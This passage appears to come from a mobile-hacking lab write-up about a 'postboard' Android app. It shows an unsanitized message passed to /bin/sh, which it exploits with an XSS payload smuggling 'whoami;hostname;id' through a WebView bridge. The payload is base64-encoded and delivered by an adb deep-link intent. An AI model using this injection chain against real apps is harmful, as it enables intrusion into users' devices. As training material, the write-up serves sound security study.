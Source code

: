 The `runCowsay()` will execute `/bin/sh -c cowsay.sh message`. The `cowsay.sh` is intialized as a variable in the `CowsayUtil` class. The message is not sanitized and hence we can inject our commands.

```java
private static final String SCRIPT_NAME = "cowsay.sh";
private static String scriptPath;
```

Now let's try to execute some commands and see. we have to call `WebAppInterface.postCowsayMessage()` with the message as the command we need to be injected since we can execute javascript in our app. Let's craft our payload.

Hmtl code

```shell
<img src=x onerror="WebAppInterface.postCowsayMessage('whoami;hostname;id')">
```

base64 encoded string

```shell
PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3dob2FtaTtob3N0bmFtZTtpZCcpIj4=
```

adb command

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> adb shell am start -n "com.mobilehackinglab.postboard/.MainActivity" -a "android.intent.action.VIEW" -d "postboard://postmessage/PGltZyBzcmM9eCBvbmVycm9yPSJXZWJBcHBJbnRlcmZhY2UucG9zdENvd3NheU1lc3NhZ2UoJ3dob2FtaTtob3N0bmFtZTtpZCcpIj4="
Starting: Intent { act=android.intent.action.VIEW dat=postboard://postmessage/... cmp=com.mobilehackinglab.postboard/.MainActivity }
```

![img-description](2.png)
